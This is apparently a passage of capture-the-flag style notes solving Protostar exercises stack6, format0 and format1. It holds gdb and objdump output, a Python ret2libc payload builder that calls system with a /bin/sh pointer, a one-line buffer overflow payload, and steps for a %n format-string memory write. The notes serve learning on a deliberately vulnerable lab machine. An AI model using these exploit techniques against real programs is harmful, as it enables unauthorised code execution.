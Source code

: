 ```
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```
Where's sh
```
$ strings -t d /lib/libc-2.11.2.so | grep /bin/sh
1176511 /bin/sh
```
Python Program
```
import struct
system = struct.pack("I",0xb7ecffb0) #
padding = "AAAA"
binsh = struct.pack("I",0xb7e97000+1176511)
payload = 'A'*4*20+system+padding+binsh
```
## Format 0

```
/opt/protostar/bin/format0 $(python -c 'print("A"*64+"\xef\xbe\xad\xde")')
```

## Format 1

`objdump -t`
```
08049638 g     O .bss   00000004              target
0804963c g       *ABS*  00000000              _end
00000000       F *UND*  00000000              puts@@GLIBC_2.0
08049630 g       *ABS*  00000000              _edata
080484aa g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
0804841c g     F .text  0000001b              main
080482c0 g     F .init  00000000              _init
```

Steps
1. Find out address to overwrite, and put it to the string
2. Do the appropriate padding, such that the string fits nicely
3. %x until your last displayed value from memory is the address you want to overwrite
4. Change the last %x to %n to overwrite that variable
